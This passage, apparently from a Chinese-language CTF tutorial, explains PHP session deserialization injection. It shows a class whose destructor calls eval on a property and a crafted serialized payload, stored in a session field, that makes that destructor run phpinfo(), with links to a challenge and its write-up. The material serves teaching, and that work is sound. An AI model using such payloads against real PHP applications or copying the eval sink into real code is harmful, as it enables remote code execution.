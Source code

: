     <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">__destruct</span><span class="hljs-params">()</span> {</span>
         <span class="hljs-keyword">eval</span>(<span class="hljs-variable">$this</span>-&gt;hi);<span class="hljs-comment">//这里很危险，可以执行用户输入的参数</span>
    }
}
<span class="hljs-preprocessor">?&gt;</span>
</code></pre>
<p>在1.PHP里面输入a参数序列化的值|O:5:”lemon”:1:{s:2:”hi”;s:10:”phpinfo();”;}  <br>
则被序列化为 <br>
a:1:{s:6:”spoock”;s:44:”|O:5:”lemon”:1:{s:2:”hi”;s:10:”phpinfo();”;} <br>
在2.PHP里面打开 <br>
就可以执行phpinfo（）了 <br>
<a href="http://web.jarvisoj.com:32784/">有道web题</a> <br>
<a href="http://blog.csdn.net/qq_31481187/article/details/53189113">这里是题解</a></br></br></br></br></br></br></p></hr></div>